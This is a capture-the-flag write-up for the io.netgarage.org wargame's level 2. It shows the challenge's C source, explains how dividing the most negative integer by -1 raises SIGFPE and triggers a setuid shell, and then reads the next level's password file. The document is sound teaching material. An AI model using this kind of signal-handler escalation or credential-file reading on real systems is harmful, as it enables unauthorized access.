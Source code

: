 # io.netgarage.org: level2
Once again, we start the challenge by logging into the challenge server
```
ssh level1@io.netgarage.org
password: password gained from completing previous level
```
```
 ______   _____
/\__  _\ /\  __`\       Levels are in /levels
\/_/\ \/ \ \ \/\ \      Passes are in ~/.pass
   \ \ \  \ \ \ \ \     Readmes in /home/level1
    \_\ \__\ \ \_\ \
    /\_____\\ \_____\   Server admin: bla (blapost@gmail.com)
    \/_____/ \/_____/
```
We `cd` to `/levels` and run `./level02`:
```
level2@io:/levels$ ./level02
source code is available in level02.c

level2@io:/levels$
```
Not much happens. We follow the wize advice of the program and look at the 
source:
```C
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
	printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```
The program expects 3 arguments, 2 being command line arguments, and it returns
the absolute value of the first argument, divided by the second argument. The
function we want to call is the `catcher(int a)` function. We see that a signal
handler is set up for floating point exceptions, `SIG_FPE`, that will call
`catcher()` if a `SIG_FPE` happens. We need a way to cause a `SIG_FPE`, which
presumably would have to do with the 2 numbers we pass that get divided.

From the man page of `signal()`:
```
NOTES
       The effects of signal() in a multithreaded process are unspecified.

       According to POSIX, the behavior of a process is undefined after it 
       ignores a SIGFPE, SIGILL, or SIGSEGV  signal  that  was not generated 
       by kill(2) or raise(3).  Integer division by zero has undefined result. 
       On some architectures it will gener- ate a SIGFPE signal.  (Also 
       dividing the most negative integer by -1 may generate SIGFPE.)  
       Ignoring this signal might lead to an endless loop.
```
Importantly:
```
dividing the most negative integer by -1 may generate SIGFPE.
```
Great!
Assuming that an `int` is 32-bit, the most negative integer is `-2^31`, or 
`-2147483648`.
Let's try using `-2147483648` and `-1`:
```
level2@io:/levels$ ./level02 -2147483648 -1
source code is available in level02.c

WIN!
sh-4.3$
```
And we got a shell! We can now read the pass from `/home/level3/.pass`:
```
sh-4.3$ cat /home/level3/.pass
<REDACTED>
```
And so, level02 is solved.

Happy Hacking!

~MarcoSi